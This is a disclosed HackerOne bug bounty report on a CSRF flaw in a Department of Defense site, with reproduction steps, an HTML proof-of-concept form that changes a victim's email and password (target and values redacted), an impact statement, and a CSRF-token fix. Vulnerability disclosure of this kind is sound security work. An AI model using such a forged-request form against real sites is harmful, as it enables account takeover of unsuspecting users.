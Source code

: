 # CSRF - Modify User Settings with one click - Account TakeOver

## Report Details
- **Report ID**: 799895
- **URL**: https://hackerone.com/reports/799895
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-02-19T16:39:46.127Z
- **Disclosed**: 2022-03-18T19:03:13.236Z

## Reporter
- **Username**: ahmd_halabi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Target Url**
https://█████

**Summary:**
This CSRF is sensitive, similar to the old one #799855 , here attacker can change user name, email, and password with just one click from user.
I think its severity should be greater than Medium (High) since it doesn't require any user interaction but only just being authenticated to the target url.

## Step-by-step Reproduction Instructions

1. Login to your account.
2. To generate the html code: You can click on save button in edit Profile section and intercept the request -> Engagement Tools -> Generate CSRF PoC.
3. Copy and paste the generated code to html file 
```
<html>
  <body>
    <form action="https://███" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="action" value="save&#95;info" />
      <input type="hidden" name="password&#91;original&#93;" value="█████████" />
      <input type="hidden" name="password&#91;confirmed&#93;" value="██████████" />
      <input type="hidden" name="email&#91;original&#93;" value="███████" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Open the file in browser, click the button and the profile info will be changed successfully.

## Suggested Mitigation/Remediation Actions
Add a csrf-token in the header or in an hidden input to check if the user that is doing this action authorized or not.

## Impact

This action is critical and sensitive. Attacker can upload this file to a url. Sends it to the victims. And when the authenticated victims navigate to the url their accounts details (username, email, password) will change.
Attacker will undergo successful Account Takeover.

## Attachments
No attachments
